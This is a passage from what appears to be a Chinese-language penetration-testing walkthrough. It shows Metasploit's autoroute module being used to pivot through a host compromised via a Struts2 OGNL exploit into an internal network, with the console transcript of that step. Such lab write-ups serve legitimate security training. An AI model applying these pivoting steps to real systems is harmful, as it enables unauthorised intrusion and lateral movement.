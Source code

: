 ![screenShot](./img/2023-07-26-174733.png)

当然最主要的还是需要用meterpreter实现让外层的主机作为中介路由，将下一步内网扫描的包转发过去，此时会用到`post/multi/manage/autoroute`模块，只需要将会话ID填入即可，之后运行便会自动添加路由信息到Metasploit的路由表中（因为顺利执行过后重复操作不会再次添加路由表信息，可能与实际回显不同）：

```metasploit
msf6 exploit(multi/http/struts2_multi_eval_ognl) > search autoroute

Matching Modules
================

   #  Name                         Disclosure Date  Rank    Check  Description
   -  ----                         ---------------  ----    -----  -----------
   0  post/multi/manage/autoroute                   normal  No     Multi Manage Network Route via Meterpreter Session


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/autoroute

msf6 exploit(multi/http/struts2_multi_eval_ognl) > use 0
msf6 post(multi/manage/autoroute) > options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION  2                yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)


View the full module info with the info, or info -d command.

msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
```